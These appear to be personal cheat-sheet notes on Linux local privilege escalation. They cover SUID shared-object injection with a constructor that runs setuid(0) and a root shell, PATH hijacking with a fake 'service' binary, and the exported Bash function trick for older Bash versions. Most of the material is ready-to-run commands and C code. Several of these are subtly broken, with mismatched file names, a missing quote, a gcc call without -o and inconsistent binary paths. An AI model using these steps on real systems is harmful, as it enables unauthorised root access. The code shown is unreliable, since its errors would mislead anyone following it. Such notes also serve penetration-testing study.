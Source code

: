 Example
```
./lse.sh -l 1 -i | more
#locate files with SUID set
strace [file] 2 >&1 | grep -iE "open|access|no such file"
#locate a so in a location you can write.  Create that so file...if found libcalc.so
vim libcal.c
         #include <stdio.h>
         #include <stdlib.h>
         static void  init __attribute__((constructor)) 
         void init(){setuid(0);system("/bin/bash -p");}' 
gcc -shared -fPIC -o libcalc.so libacal.c
#execute file that will load the above .so
```

### Path Environment Variable
### No path
* The PATH env var contains a list of directories where the shell should try to find programs
* If a program tries to execute another program, but only specifies the progam name, rather than its full (absolute) path, the shell will search the PATH directories until it is found
* Since a user has full control over their PATH variable, we can tell the shell to first look for programs in a directory we can write to.

* We can run **strings** command on executable to find strings of characters.**strace** and  **ltrace** can also be helpful

```
strings <command>
strace -v -f execve <command> 2>&1 | grep <exec from above>
ltrace <command>
```

Example if **service** command  is called:
```
vim service.c
    int main() {
        setuid(0);
        system("/bin/bash -p);
    }
gcc service service.c
#Prepend current directory to path
PATH=.:$PATH
#execute the file
```

### Full path specified
Bash versions lower than 4.2.048 it is possible to define user functions with absolute path name.  These functions take precedence pver the actual executable being called

```
#for example the command is
/usr/sbin/service ...
#then
/bin/sh --version 
# less than 4.2.048
function /usr/bin/service { /bin/bash -p; }
export  -f /usr/bin/service
#execute the file with /usr/sbin/service
```
